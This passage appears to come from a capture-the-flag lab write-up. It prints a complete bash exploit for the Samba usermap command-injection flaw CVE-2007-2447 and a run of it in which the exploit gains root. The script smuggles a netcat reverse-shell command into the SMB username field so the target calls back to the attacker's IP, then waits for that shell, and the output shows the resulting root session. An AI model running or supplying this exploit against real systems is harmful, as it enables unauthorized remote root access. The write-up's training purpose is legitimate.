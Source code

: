 The code of the exploit is:

```bash
#!/bin/bash

# Exploit CVE-2007-2447 abusing usermap command injection to obtain RCE
# Author: oscar-rk - https://github.com/oscar-rk


# User exit handling
function ctrl_c(){
   echo -e "[!] Exiting script ...\n"   
   exit 1
}

# User exit catching
trap ctrl_c INT

# Args check
if [ "$#" -ne 4 ]; then
   echo -e "[!] Usage: $0 <local ip> <local port> <remote ip> <remote port>\n"
   exit 1
fi

# Exploit
function exploit(){
	# Initialising SMB exploitation
	sleep 1
	echo -e "starting exploit on [$3] $4 ..."
	crackmapexec --timeout 3 smb $3 --port $4 -u '/=`nohup nc -e /bin/sh '$1' '$2'`' -p '' &>/dev/null &

	# Listening for incoming reverse shell
	nc -nlvp $2 -w 10 #<-- Will exit script automatically if no reverse shell received after 10 seconds
}

# Execution
exploit $1 $2 $3 $4
```

We will assign execution permissions to it running `chmod +x <script>` command.

### Exploitation

Now, we can run the exploit and get the reverse shell.

```shell
❯ ./CVE-2007-2447.sh 10.10.14.7 4444 10.10.10.3 445
starting exploit on [10.10.10.3] 445 ...
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.3] 53206
hostname
lame
whoami
root
```
